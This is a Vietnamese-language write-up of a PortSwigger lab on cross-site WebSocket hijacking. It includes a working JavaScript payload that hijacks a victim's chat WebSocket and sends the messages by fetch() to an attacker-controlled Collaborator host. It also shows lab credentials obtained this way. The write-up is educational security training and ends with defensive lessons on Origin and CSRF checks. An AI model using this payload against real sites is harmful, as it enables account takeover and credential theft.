





# Write-ups: Cross-site WebSocket hijacking

### Tổng quan
Khai thác lỗ hổng Cross-site WebSocket hijacking (CSWH) trong chức năng live chat của ứng dụng, nơi WebSocket endpoint (`/chat`) không kiểm tra CSRF token hoặc xác thực nguồn gốc, cho phép kẻ tấn công kết nối WebSocket từ một trang độc hại. Bằng cách gửi thông điệp `READY` qua WebSocket, kẻ tấn công lấy được dữ liệu chat nhạy cảm (bao gồm thông tin đăng nhập) và chuyển tiếp đến máy chủ do mình kiểm soát. Payload được triển khai trong Exploit Server, tận dụng việc thiếu bảo vệ chống CSRF để đánh cắp thông tin đăng nhập của nạn nhân và đăng nhập vào tài khoản của họ

### Mục tiêu
- Khai thác lỗ hổng Cross-site WebSocket hijacking để kết nối tới WebSocket endpoint `/chat`, lấy thông tin đăng nhập của nạn nhân, gửi dữ liệu đến máy chủ do kẻ tấn công kiểm soát, đăng nhập vào tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu th ập thông tin (Reconnaissance)**
- Nhập tin nhắn thử nghiệm (`hey`) và reload trang, quan sát trong Burp Proxy WebSockets history:
    - Gửi thông điệp `READY` qua WebSocket để khởi tạo `handshake`, nhận phản hồi chứa dữ liệu chat:
     
- Kiểm tra request GET `/chat` trong Burp Proxy HTTP history:
    - **Phản hồi**:     
        - Response chứa endpoint WebSocket: `wss://0a5b001c04ae288181251bc200cf0098.web-security-academy.net/chat`.
        - Không có CSRF token hoặc kiểm tra nguồn gốc (Origin header), xác nhận lỗ hổng CSWH:
        

- **Kiểm tra khả năng khai thác WebSocket**
    - Tạo payload trong Exploit Server để thử kết nối WebSocket và lấy dữ liệu:
        ```html
        <script>
            var ws = new WebSocket('wss://0a5b001c04ae288181251bc200cf0098.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                fetch('https://kl92e5pewy32d7478yzq97e71y7pvfj4.oastify.com', {
                    method: 'POST',
                    mode: 'no-cors',
                    body: event.data
                });
            };
        </script>
        ```
        
    - **Ý tưởng payload**: Kết nối WebSocket tới `/chat`, gửi READY để nhận dữ liệu chat, chuyển tiếp dữ liệu tới máy chủ của kẻ tấn công qua fetch.
- Store và view exploit:
    - Payload kết nối thành công tới WebSocket, gửi READY, nhận dữ liệu chat và gửi đến Burp Collaborator 
        

2. **Khai thác (Exploitation)**
- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server: 
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, payload kết nối WebSocket, gửi READY, nhận dữ liệu chat chứa thông tin đăng nhập: `carlos`:`smakwq6eqz618ht010l0`. Dữ liệu được gửi đến Burp Collaborator:
        

- Đăng nhập vào tài khoản `carlos`:`smakwq6eqz618ht010l0`, lab xác nhận hoàn thành:
    

### Bài học rút ra
- Hiểu cách khai thác Cross-site WebSocket hijacking bằng cách kết nối tới WebSocket endpoint /chat từ trang độc hại, gửi thông điệp READY để lấy dữ liệu nhạy cảm (thông tin đăng nhập), tận dụng việc thiếu kiểm tra CSRF token hoặc nguồn gốc.
- Nhận thức tầm quan trọng của việc triển khai kiểm tra CSRF token và xác thực nguồn gốc (Origin header) trong các kết nối WebSocket để ngăn chặn các cuộc tấn công CSWH.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Cross-site WebSocket hijacking, nhấn mạnh tầm quan trọng của việc bảo vệ WebSocket bằng kiểm tra CSRF token và xác thực nguồn gốc để ngăn chặn đánh cắp dữ liệu nhạy cảm. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*